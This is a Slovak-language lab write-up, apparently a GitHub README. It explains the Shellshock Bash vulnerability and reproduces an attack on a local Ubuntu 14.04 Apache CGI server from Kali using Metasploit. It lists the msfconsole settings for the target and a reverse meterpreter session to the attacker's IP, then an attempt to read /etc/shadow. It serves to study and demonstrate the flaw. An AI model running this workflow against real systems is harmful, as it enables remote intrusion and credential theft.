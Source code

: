 # Otestovanie zraniteľnosti Shellshock na Ubuntu 14.04

CVE-2014-6271, známe aj ako „Shellshock“, bolo objavené v septembri 2014 bezpečnostným výskumníkom Stéphane Chazelasom.
Využíva chybu v príkazovom interpretery Bash od verzie 1.14 po 4.3. Zraniteľné boli všetky zariadenia,
ktoré ho používali. Vzdialenému útoku boli však vystavení iba používatelia, ktorí boli pripojení na internet. Okrem
toho je potrebný určitý softvér, ktorý poskytuje cestu, cez ktorú sa útočník môže dostať k príkazovému interpreteru
Bash, napríklad pri webovom serveri Apache je to CGI, ktorý slúži na interakciu s jeho programami. Experti
vypočítali, že „Shellshock“ sa týkal vyše 500 miliónov zariadení.

Zraniteľnosť vzniká kvôli chybe v spracovaní premenných prostredia v príkazovom interpretery Bash, najmä definície
funkcií. Toto sa dá zneužiť na vykonanie ľubovoľného kódu, získanie neoprávneného prístupu k systému, poprípade
vykonanie rôznych útokov, ako napríklad DoS, Code Injection alebo Remote Command Execution.

## Konfigurácia Ubuntu

Pre otestovanie sme si stiahli verziu webového servera Apache verzie 2.4.7 a overili verziu príkazového interpreteru
Bash, ktorá bola verzie 4.3.8. Následne sme si vytvorili a vložili na server CGI skript, konkrétne `hw.sh`. V súbore
VAGRANT sme si vybrali vhodný systém na stiahnutie, nastavili adresu IP, stiahli a nakonfigurovali webový server
Apache tak aby bolo možné spúšťať súbory CGI. Nakoniec sme vložili skript `hw.sh` a nastavili ho na spustiteľný.

## Konfigurácia Kali Linux

Pre zaútočenie sme vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie Kali. Útok spustíme otvorením konzoly a spustením príkazu:

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou
`set RHOSTS 192.168.50.20` a cesta `set TARGETURI /cgi-bin/hw.sh`, čo nám nastaví cestu k skriptu CGI.
Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.21` a spustiť útok. 

Po spustení `HACK.sh` sme sa dostali do interpretačného riadku meterpreter, kde sme mohli spustiť `shell` a vypísať
si, pomocou príkazu `cat /etc/shadow`, obsah súboru shadow. V tom nám však systém zabráni, pretože nemáme privilégiá *root*.
